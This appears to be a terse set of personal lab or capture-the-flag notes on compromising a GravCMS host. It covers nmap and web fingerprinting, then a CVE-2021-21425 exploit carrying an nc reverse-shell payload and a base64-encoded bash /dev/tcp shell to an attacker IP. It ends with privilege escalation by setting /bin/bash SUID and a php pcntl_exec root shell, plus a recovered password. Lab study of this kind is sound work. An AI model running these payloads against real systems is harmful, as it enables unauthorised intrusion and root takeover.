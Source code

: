 ____
IP=192.168.179.12
Linux

# Nmap
|PORT|STATE|SERVICE|
|---|---|---|
|22/tcp|open|ssh|
|80/tcp|open|http|
```python

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp open  http    Apache httpd 2.4.41
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-03-17 17:46  grav-admin/
|_
|_http-title: Index of /
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

## 80 - http

![[Pasted image 20240201103535.png]]

### /grav-admin

- CMS = GravCMS

```python
http://192.168.179.12/grav-admin/ [200 OK] Apache[2.4.41], Cookies[grav-site-1dfbe94], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], HttpOnly[grav-site-1dfbe94], IP[192.168.179.12], JQuery, MetaGenerator[GravCMS], Script, Title[Home | Grav], X-UA-Compatible[IE=edge]
```

![[Pasted image 20240201103751.png]]

https://www.exploit-db.com/exploits/49973

```bash
echo -ne "bash -i >& /dev/tcp/192.168.45.178/1234 0>&1" | base64 -w0

YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjE3OC8xMjM0IDA+JjE=
```


![[Pasted image 20240201104626.png]]


not working

Metasploit works

https://github.com/CsEnox/CVE-2021-21425

```bash
python3 exploit.py -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.178 5555 >/tmp/f' -t http://192.168.179.12/grav-admin
```
# PrivEsc

## pspy
![[Pasted image 20240201110641.png]]

change bin/grav file to :
```php
<?php
// Full path to the bash executable
$bashPath = '/bin/bash';
// Execute chmod 4777 on /bin/bash
chmod($bashPath, 04777);
?>
```

## suid php

```bash
find / -perm -4000 2>/dev/null | grep -v "snap" 

/usr/bin/php7.4 -r "pcntl_exec('/bin/sh', ['-p']);"
```


# PrivEsc

password --> FatPanda123




